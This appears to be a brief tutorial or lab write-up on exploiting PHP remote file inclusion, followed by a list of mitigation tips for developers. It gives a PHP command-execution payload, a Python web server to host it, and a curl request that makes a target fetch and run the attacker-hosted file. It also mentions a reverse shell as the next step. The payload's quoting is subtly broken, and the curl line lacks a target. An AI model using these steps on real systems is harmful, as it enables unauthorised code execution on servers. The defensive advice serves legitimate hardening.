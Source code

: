 #### How to do this easily?
First write a txt(just simple and stupid for now. revshell later):
```sh
echo "<?php echo exec("ls /");?>" > deez.txt
```

you can locally run a webserver using python 3:
```sh
python3 -m http.server 9000
```

at your public ip `address:9000`, you will be hosting all your file. Now you can make post request 
```
curl -X POST -d "file=http://{ip.address.goes.here}:9000/deez.txt"
```

Then it will execute the php we made!


Tips for the devs:

1. Keep system and services, including web application frameworks, updated with the latest version.
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.
7. Implement whitelisting for file names and locations as well as blacklisting.

